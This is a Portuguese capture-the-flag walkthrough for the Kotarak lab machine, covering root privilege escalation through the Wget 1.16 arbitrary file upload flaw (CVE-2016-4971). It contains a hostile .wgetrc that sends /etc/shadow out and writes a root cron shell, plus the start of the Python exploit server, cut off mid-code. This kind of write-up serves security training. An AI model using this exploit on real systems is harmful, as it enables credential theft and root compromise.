 Bom, agora vamos iniciar a escalação de privilégio para root

# Escalando Privilégio - Atanas -> Root

Primeira coisa que percebemos ao entrar na máquina, é que temos acesso a pasta do /root, e dentro dela temos dois arquivos, um `app.log` e um `flag.txt`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-kotarak/K_priv.png)

O que chamou atenção é o log do `wget`, não ta ali a toa, deve ter alguma coisa pra ser feita com ele

Pesquisando por `Wget/1.16 (linux-gnu)` descobirmos que há uma vulnerabilidade nele que podemos escalar privilégio

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-kotarak/K_priv1.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-kotarak/K_priv2.png)

Copiamos para nossa pasta de trabalho esse exploit, pra ver como podemos explorar essa vulnerabilidade, uma vez que a versão bate e temos o wget na máquina Kotarak instalado

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-kotarak/K_priv3.png)

## Explorando Wget 1.16

Bom, após ler como o exploit funciona, vamos realizar essa exploração

1º Passo - Criação do arquivo `.wgetrc`

```
post_file = /etc/shadow
output_document = /etc/cron.d/wget-root-shell
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-kotarak/K_r.png)

2º Passo - Fazemos as alterações no `exploit.py` que está dentro da PoC disponibilizada no searchploit

```
#!/usr/bin/env python

#
# Wget 1.18 < Arbitrary File Upload Exploit
# Dawid Golunski
# dawid( at )legalhackers.com
#
# http://legalhackers.com/advisories/Wget-Arbitrary-File-Upload-Vulnerability-Exploit.txt
#
# CVE-2016-4971 
#

import SimpleHTTPServer
import SocketServer
import socket;

class wgetExploit(SimpleHTTPServer.SimpleHTTPRequestHandler):
   def do_GET(self):
       # This takes care of sending .wgetrc

       print "We have a volunteer requesting " + self.path + " by GET :)\n"
       if "Wget" not in self.headers.getheader('User-Agent'):
	  print "But it's not a Wget :( \n"
          self.send_response(200)
          self.end_headers()
```